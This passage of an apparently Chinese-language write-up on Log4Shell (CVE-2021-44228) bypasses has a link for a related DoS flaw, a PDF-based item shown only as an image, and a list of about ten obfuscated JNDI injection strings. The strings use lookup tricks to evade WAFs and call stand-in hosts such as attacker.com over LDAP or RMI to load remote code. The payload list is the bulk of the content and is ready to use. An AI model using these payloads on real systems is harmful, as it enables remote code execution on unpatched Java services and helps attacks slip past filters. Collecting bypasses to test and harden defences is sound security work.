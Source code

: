 

#### 13. DOS攻击(log4j 2.8 - 2.16 - CVE-2021-45105)

```
https://d0znpp.medium.com/bypassing-ngfw-wafs-using-data-format-obfuscations-188351ea9e73
```



#### 14.PDF

制作特殊的 pdf 文件以利用 CVE-2021-44228

![PDF example](../assets/2021-12-15-Log4jshell%E5%90%8E%E7%BB%AD/147821759-3532d8f8-2378-4405-a333-e56d8e7e7a8a.png)

**以上内容来自 `https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words` **



#### 其他的一些bypass方法

```json
${lower:${🅰️d:-${lower:}}jndi:}

${jndi:ldap://attacker.com/a}

${j${upper:${lower:n}}di:ldap://attacker.com/a}

${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:ldap://attacker.com/a}

${${env:BARFOO:-j}Ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}

${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}

${${::-j}ndi:rmi://127.0.0.1:1389/ass}

${jndi:rmi://a.b.c}

${${lower:jndi}:${lower:rmi}://q.w.e/poc}

${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}

```